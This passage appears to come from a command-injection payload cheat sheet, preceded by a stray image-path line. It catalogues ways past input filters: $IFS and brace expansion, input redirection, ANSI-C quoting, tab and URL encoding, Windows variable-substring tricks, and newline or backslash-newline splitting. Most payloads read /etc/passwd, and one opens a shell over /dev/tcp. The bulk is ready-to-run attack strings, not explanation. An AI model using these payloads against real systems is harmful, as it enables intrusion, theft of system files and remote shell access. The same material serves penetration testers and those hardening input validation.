 * `$IFS` is a special shell variable called the Internal Field Separator. By default, in many shells, it contains whitespace characters (space, tab, newline). When used in a command, the shell will interpret `$IFS` as a space. `$IFS` does not directly work as a separator in commands like `ls`, `wget`; use `${IFS}` instead. 
  ```powershell
  cat${IFS}/etc/passwd
  ls${IFS}-la
  ```
* In some shells, brace expansion generates arbitrary strings. When executed, the shell will treat the items inside the braces as separate commands or arguments.
  ```powershell
  {cat,/etc/passwd}
  ```
* Input redirection. The < character tells the shell to read the contents of the file specified. 
  ```powershell
  cat</etc/passwd
  sh</dev/tcp/127.0.0.1/4242
  ```
* ANSI-C Quoting 
  ```powershell
  X=$'uname\x20-a'&&$X
  ```
* The tab character can sometimes be used as an alternative to spaces. In ASCII, the tab character is represented by the hexadecimal value `09`.
  ```powershell
  ;ls%09-al%09/home
  ```
* In Windows, `%VARIABLE:~start,length%` is a syntax used for substring operations on environment variables.
  ```powershell
  ping%CommonProgramFiles:~10,-18%127.0.0.1
  ping%PROGRAMFILES:~10,-5%127.0.0.1
  ```


### Bypass With A Line Return

Commands can also be run in sequence with newlines

```bash
original_cmd_by_server
ls
```


### Bypass With Backslash Newline

* Commands can be broken into parts by using backslash followed by a newline
  ```powershell
  $ cat /et\
  c/pa\
  sswd
  ```
* URL encoded form would look like this:
  ```powershell
  cat%20/et%5C%0Ac/pa%5C%0Asswd
  ```

